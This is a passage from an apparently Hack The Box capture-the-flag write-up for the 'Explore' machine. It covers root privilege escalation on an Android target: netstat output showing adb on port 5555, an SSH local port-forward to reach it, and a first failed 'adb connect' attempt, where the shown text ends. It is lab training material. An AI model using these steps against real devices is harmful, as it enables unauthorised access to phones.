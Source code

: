 # Privesc root 
-  if we check the open ports inside phone we can see port `5555` is listening 
-   port 5555 is  `adb` 
-  its is also running in local host

```bash
130|:/sdcard $ netstat -tuln                                                   
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp6       0      0 ::ffff:127.0.0.1:34789  :::*                    LISTEN     
tcp6       0      0 :::2222                 :::*                    LISTEN     
tcp6       0      0 :::5555                 :::*                    LISTEN     
tcp6       0      0 :::42135                :::*                    LISTEN     
tcp6       0      0 ::ffff:10.10.10.2:44057 :::*                    LISTEN     
tcp6       0      0 :::59777                :::*                    LISTEN     
tcp6       0     80 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.4:58306 ESTABLISHED
tcp6       0      0 ::ffff:10.10.10.24:2222 ::ffff:10.10.14.2:54162 ESTABLISHED
udp        0      0 10.10.10.247:40894      1.1.1.1:53              ESTABLISHED
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp        0      0 10.10.10.247:34055      1.0.0.1:53              ESTABLISHED
udp        0      0 0.0.0.0:34304           0.0.0.0:*                          
udp6       0      0 :::1900                 :::*                               
udp6       0      0 :::34829                :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 :::5353                 :::*                               
udp6       0      0 ::ffff:10.10.10.2:41359 :::*                               
:/sdcard $ 
```

#### so we can do port forwording 

```bash
╭─root@kali ~/Desktop/htb/Explore ‹master*› 
╰─# ssh -p 2222 -L 5555:localhost:5555 kristi@explore.htb
Password authentication
Password: 
:/ $ 
```

![](https://i.imgur.com/YjcZkOV.png)

## now lets connect to adb  in localhost
- [ADB commands](https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/adb-commands)

```bash
╭─root@kali ~/Desktop/htb/Explore ‹master*› 
╰─# adb connect localhost                                
* daemon not running; starting now at tcp:5037
* daemon started successfully
missing port in specification: tcp:localhost
```
